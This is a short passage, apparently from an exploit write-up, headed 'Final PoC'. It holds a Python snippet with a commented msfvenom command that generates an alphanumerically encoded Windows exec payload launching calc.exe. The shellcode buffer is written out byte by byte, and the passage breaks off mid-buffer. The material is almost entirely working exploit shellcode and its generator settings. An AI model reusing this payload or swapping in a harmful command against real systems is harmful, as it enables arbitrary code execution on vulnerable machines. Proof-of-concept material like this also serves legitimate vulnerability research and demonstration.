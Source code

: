 ![](/assets/img/Findings4/5.png)

Final PoC:

```term_session
import struct

# msfvenom -p windows/exec CMD=calc.exe -f py -e x86/alpha_mixed BufferRegister=ESP EXITFUNC=thread 
# Payload size: 440 bytes

buf =  b""
buf += b"\x54\x59\x49\x49\x49\x49\x49\x49\x49\x49\x49\x49\x49"
buf += b"\x49\x49\x49\x49\x49\x37\x51\x5a\x6a\x41\x58\x50\x30"
buf += b"\x41\x30\x41\x6b\x41\x41\x51\x32\x41\x42\x32\x42\x42"
buf += b"\x30\x42\x42\x41\x42\x58\x50\x38\x41\x42\x75\x4a\x49"
buf += b"\x59\x6c\x49\x78\x4f\x72\x77\x70\x45\x50\x77\x70\x73"
buf += b"\x50\x6c\x49\x58\x65\x34\x71\x39\x50\x51\x74\x6e\x6b"
buf += b"\x30\x50\x76\x50\x6e\x6b\x66\x32\x64\x4c\x4e\x6b\x52"
buf += b"\x72\x37\x64\x4e\x6b\x51\x62\x67\x58\x36\x6f\x4f\x47"
buf += b"\x61\x5a\x64\x66\x36\x51\x69\x6f\x4c\x6c\x55\x6c\x31"
buf += b"\x71\x51\x6c\x37\x72\x34\x6c\x75\x70\x59\x51\x68\x4f"
buf += b"\x56\x6d\x76\x61\x78\x47\x59\x72\x5a\x52\x56\x32\x51"
buf += b"\x47\x6c\x4b\x76\x32\x64\x50\x6e\x6b\x61\x5a\x47\x4c"
buf += b"\x4e\x6b\x52\x6c\x57\x61\x52\x58\x6d\x33\x70\x48\x63"
buf += b"\x31\x4a\x71\x73\x61\x4c\x4b\x66\x39\x55\x70\x77\x71"
buf += b"\x58\x53\x4e\x6b\x62\x69\x45\x48\x49\x73\x74\x7a\x42"
buf += b"\x69\x6e\x6b\x76\x54\x6c\x4b\x45\x51\x78\x56\x35\x61"
buf += b"\x49\x6f\x4e\x4c\x59\x51\x78\x4f\x76\x6d\x65\x51\x39"
buf += b"\x57\x65\x68\x4d\x30\x31\x65\x69\x66\x76\x63\x31\x6d"
buf += b"\x4a\x58\x37\x4b\x31\x6d\x54\x64\x54\x35\x79\x74\x52"
buf += b"\x78\x4e\x6b\x33\x68\x44\x64\x56\x61\x38\x53\x50\x66"
buf += b"\x6e\x6b\x74\x4c\x52\x6b\x6e\x6b\x32\x78\x77\x6c\x73"
```